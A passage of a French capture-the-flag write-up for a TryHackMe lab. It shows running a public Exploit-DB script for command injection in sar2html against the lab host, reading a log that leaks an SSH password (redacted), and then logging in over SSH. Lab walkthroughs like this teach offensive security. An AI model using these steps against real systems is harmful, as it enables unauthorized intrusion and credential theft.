 ```python
    terminal.cmdloop()
```

`$ cp /usr/share/exploitdb/exploits/php/webapps/49344.py tryHackMe/room/boiler`

```bash
$ python3 49344.py 
Enter The url => http://boiler.thm/joomla/_test
Command => id
HPUX
Linux
SunOS
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

L'exploit fonctionne !

On va essayer quelques commandes :

```bash
Command => ls -lsa
HPUX
Linux
SunOS
total 124
 4 drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 .
 4 drwxr-xr-x 25 www-data www-data  4096 Aug 22  2019 ..
56 -rwxr-xr-x  1 www-data www-data 53430 Aug 22  2019 index.php
 4 -rwxr-xr-x  1 www-data www-data   716 Aug 21  2019 log.txt
52 -rwxr-xr-x  1 www-data www-data 53165 Mar 19  2019 sar2html
 4 drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 sarFILE

Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: <basterd_password>
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

On vient de trouver le mot de passe de connexion en ssh de l'utilisateur **'basterd'.**

Essayons de nous connecter en ssh avec ce compte (lors du scan de nmap, nous avons vu que le port **55007** était ouvert et utilise le protocool **ssh**) :

```bash
$ ssh basterd@boiler.thm -p 55007
The authenticity of host '[boiler.thm]:55007 ([10.10.79.83]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[boiler.thm]:55007' (ED25519) to the list of known hosts.
basterd@boiler.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```